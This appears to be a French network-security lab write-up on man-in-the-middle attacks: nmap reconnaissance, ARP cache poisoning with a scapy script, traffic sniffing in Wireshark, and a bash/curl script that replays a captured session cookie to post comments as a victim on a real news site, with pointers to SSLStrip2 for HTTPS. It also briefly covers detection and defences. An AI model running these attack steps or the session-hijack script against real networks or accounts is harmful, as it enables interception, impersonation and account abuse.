 ```yaml
---
title: "TDM : Sécurité des réseaux"
date: 2019-02-06
categories: ['Sécurité', 'TD machine']
tags : ['ARP spoofing', 'MITM', 'réseaux', 'kali']
---
```


L'objectif de ce TD est de prendre en main des outils pour mettre en place une
attaque du type *Man In The Middle*. Nous allons utiliser `nmap`, `wireshark`,
`SSLStrip`, `DNS2Proxy`.

La pierre angulaire de notre attaque est l'*ARP spoofing*, notre attaque repose
ici sur le réseau local où est connecté notre victime. Le principe est simple :
l'empoisonnement du cache *ARP* de notre victime en l'inondant d'annonce.

## Découverte réseau : nmap

Avant de passer à l'attaque, il est nécessaire de cartographier le réseau sur
lequel nous sommes connectés. L'outil tout indiqué pour ce travail est `nmap`.

### les hôtes connectes

Nous allons commencer par essayer de découvrir les hôtes connectés sur notre
réseau local avec l'argument `-sP` suivi de l'adresse réseau à analyser :

```
nmap -sP 192.168.3.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-06 21:21 CET
Nmap scan report for 192.168.0.113
Host is up (0.040s latency).
Nmap scan report for 192.168.3.126
Host is up (0.000093s latency).
Nmap scan report for 192.168.3.230
Host is up (0.026s latency).
Nmap scan report for 192.168.3.240
Host is up (0.013s latency).
Nmap scan report for 192.168.3.241
Host is up (0.027s latency).
Nmap done: 256 IP addresses (10 hosts up) scanned in 6.47 seconds
```

Nmap affiche toutes les machines qu'il a trouvé sur le réseau. Il utilise le
ping ARP pour chercher les machines.

### scanner les ports.

Il est possible de scanner les ports sur une ou une machine ou un réseau
(notation CIDR). Dans l'exemple suivant, nous allons scanner une machine du
réseau pour trouver les ports TCP ouverts :

```
nmap -sS 192.168.3.230
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-06 21:30 CET
Nmap scan report for 192.168.3.230
Host is up (0.0032s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http-proxy
MAC Address: XX:XX:XX:XX:XX:XX (HAL dreamer machine)

Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds
```

Il est possible de spécifier les ports à tester avec l'argument `-p` suivi de un
ou plusieurs ports (séparés par un virgule), et afficher seulement les machines
dont ce(s) port(s) sont ouverts avec l'argument `--open`.

### Obtenir plus d'informations

Nmap permet aussi d'en apprendre plus un les machines connectées comme le type
de services tournant, les version de serveurs web et autres informations utiles
:

```
nmap -sC 192.168.0.230
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-06 22:25 CET
Nmap scan report for 192.168.0.230
Host is up (0.0025s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 7f:bf:b2:cf:47:7e:19:b7:95:4c:64:27:bb:0f:e2:c9 (RSA)
|   256 6c:ab:29:6c:3f:ab:00:dc:59:5f:a7:d7:d3:c9:ac:fe (ECDSA)
|_  256 7a:f5:d4:52:e9:c8:06:0e:6d:af:e8:8d:2e:57:d6:0b (ED25519)
111/tcp  open  rpcbind
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|_  100000  2,3,4        111/udp  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http-proxy
|_http-title: Site doesn't have a title.
MAC Address: C8:9C:DC:2A:6A:39 (Elitegroup Computer Systems)

Host script results:
|_nbstat: NetBIOS name: MEDIACENTER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)                                                            
| smb2-security-mode:
|   2.10:
|_    Message signing enabled but not required
|_smb2-time: Protocol negotiation failed (SMB2)

Nmap done: 1 IP address (1 host up) scanned in 1.39 seconds
```

Nous retrouvons ici beaucoup d'informations mais il est possible d'en apprendre
plus en rajoutant les paramètres `-a -V`.

## ARP cache poisoning

C'est là que commencent les choses sérieuses : nous allons empoisonner le cache
APR de notre victime et ainsi faire passer l'ensemble de son trafic vers notre
machine.

Nous utiliserons pour cela un [script python](./files/mitm_arp). Il est
nécessaire d'installer `python2-scapy` (soit dans un `virtualenv` soir par le
gestionnaire de paquets).

```
python2 mitm_arp 192.168.3.254 -t 192.168.3.230 -r
[...]
```

 - La première adresse IP est celle de notre routeur.
 - `-t <ip>` est l'adresse IP de notre victime
 - `-r` permet de spécifier au script de fonctionner dans les deux sens
     (renvoyer les données reçu du routeur pour notre victime à cette dernière)

Il ne fait pas oublier d'activer le `forward` de paquets sur notre machine :

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Mais aussi désactiver l'annonce de redirection par paquets ICMP redirect: 

```
echo 0 | tee /proc/sys/net/ipv4/conf/*/send_redirects
```

### Détecter l'empoisonnement

Il est possible de détecter un empoisonnement du cache ARP avec la commande
`traceroute`. En effet celle ci laisse apparaitre un saut supplémentaire entre
la machine de la victime et la passerelle (notre machine attaquant)

### Se prémunir

Il est possible, au niveau d'un ordinateur personnel d'écrire un script
vérifiant les changements effectués dans le cache ou l'ajout d'un saut dans un
`traceroute`.

Au niveau des switches, il existe des protections comme le DPA pour *Deep Arp
Inspection* ou encore l'*ARP Snooping*

## Analyser les trames

Une fois la machine de notre victime compromise, nous pouvons commencer
l'analyse du trafic réseau pour en extraire des informations utiles. Le
logiciel phare dans ce domaine est [wireshark](https://www.wireshark.org/). Il
permet d'inspecter en profondeur les trames réseaux, de filtrer les résultats
et bien d'autres choses.

Ici l'analyse en profondeur des paquets ne pourra se faire seulement lorsque la
connexion n'est pas chiffrée (pour l'instant). 

### usurpation d'identité su charentelibre.fr

Ce site propose une navigation en HTTP (dans TLS), notre victime est inscrite et
poste un commentaire. L'ensemble du trafic est disponible sur wireshark. 

#### Récupération des éléments

Partons à la recherche d'une requête `POST`, déplions la trame pour obtenir
l'ensemble des informations et récupérons, dans les entêtes, le cookie
d'identification, le `Referer` et le champ `data`

#### Création d'un script pour poster des commentaires

Maintenant que nous avons les informations utiles, nous allons utiliser lers
informations précédemment récupérées

Voici le script créé pour l'occasion : 

```bash
#!/bin/bash

USERAGENT="Mozilla/5.0 (X11; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0"

COOKIE="charlib_SESSION=267822d64d4226ccd6ee9a93d9cda6e2; userinfo=%7B%22id_sso%22%3A%2264145%22%2C%22logindate%22%3A1549461426%7D; charlib_FacebookConnect_1=%7B%22FacebookConnect%22%3Anull%7D; PHPSESSID=660cfbd1e4adb3e6029e4699ce7a299c; charlib_SSO_1=%7B%22Infos%22%3A%7B%22id_sso%22%3A%2264145%22%2C%22civilite%22%3Anull%2C%22nom%22%3A%22%22%2C%22prenom%22%3A%22%22%2C%22mail%22%3A%22lipsamepso%40ezehe.com%22%2C%22societe%22%3Anull%2C%22insee%22%3Anull%2C%22pseudo%22%3A%22Ano64145%22%2C%22type_compte%22%3A%22U%22%2C%22statut_mail_confirme%22%3A%222%22%2C%22check_string%22%3A%22dfb619ebcb701a68bc1f88a7e3cf0b02%22%7D%7D"

REFERER="http://www.charentelibre.fr/2019/02/06/epidemie-de-grippe-la-nouvelle-aquitaine-region-la-plus-touchee-deja-plus-de-1-000-morts-en-france,3383998.php"

URL="http://profil.charentelibre.fr/remote/reagir_commentaire_poster.php"

DATA="jsonpCallback=var+send%3Dfunction%28msg%29%7B+window.top.postMessage%28msg%2C+%22*%22%29%7D%3B+send&info_id=3383998&info_url=%2F2019%2F02%2F06%2Fepidemie-de-grippe-la-nouvelle-aquitaine-region-la-plus-touchee-deja-plus-de-1-000-morts-en-france%2C3383998.php&reag_date=20190206&info_reagir=1"

BASEENC=$(echo "$@" | base64)
echo "send : $BASEENC"

curl -X POST --data "${DATA}" --data-urlencode "reagtxt=${BASEENC}" --header "User-Agent:${USERAGENT}" --header "Cookie:${COOKIE}" --header "Referer:${REFERER}" ${URL}

echo ""
exit $?
```

Les commentaires pour le site charentelibre.fr sont envoyés encodés en base64
dans la variable `reagtxt`, le script encode donc tout ce qui est passé en
paramètre puis `curl` encode le tout avant de l'envoyer avec `--data-urlencode`

## Le cas HTTPS

Capturer, analyser et forger des requêtes HTTP est simple lorsque le trafic
passe en clair. Dès qu'une couche de chiffrement rentre en jeu, tout devient
bien plus compliqué.

Dans le cas du HTTPS, nous pouvons compter sur deux logiciels complémentaires :
[SSLStrip2](https://github.com/byt3bl33d3r/sslstrip2) et [DNS2Proxy](https://github.com/LeonardoNve/dns2proxy)

